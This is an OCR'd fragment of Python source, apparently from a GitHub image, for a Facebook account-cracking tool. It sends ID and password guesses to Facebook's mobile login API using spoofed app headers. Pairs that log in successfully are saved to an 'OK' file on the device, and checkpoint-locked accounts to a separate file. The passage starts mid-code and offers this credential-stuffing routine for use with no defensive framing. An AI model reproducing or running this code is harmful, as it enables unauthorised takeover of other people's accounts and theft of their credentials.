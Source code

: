                                         'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),
                                        'x-fb-connection-quality':'EXCELLENT',
                                        'x-fb-friendly-name':'authenticate',
                                        'accept-encoding':'gzip, deflate',
                                        'x-fb-http-engine':     'Liger'}
                                url = 'https://b-graph.facebook.com/auth/login?include_headers=false&decode_body_json=false&streamable_json_response=true'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        print(f'\r\r\033[1;32m [NINS-OK] '+ids+' | '+pas+'\033[1;97m')
                                        open(f'/sdcard/NINS-OK.txt','a').write(ids+'|'+pas+'\n')
                                        #cek_apk(session,coki)
                                        oks.append(ids)
                                        break
                                elif 'www.facebook.com' in q['error']['message']:
                                        if 'y' in pcp:
                                                print(f'\r\r\x1b[38;5;126m [INNOCENT-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open(f'/sdcard/NINS-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                                        else:
                                                open(f'/sdcard/NINS-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                else:
                                        continue
                        loop+=1
                except requests.exceptions.ConnectionError:
                        time.sleep(10)
                except Exception as e:
                        pass
		


		
Spy()
	
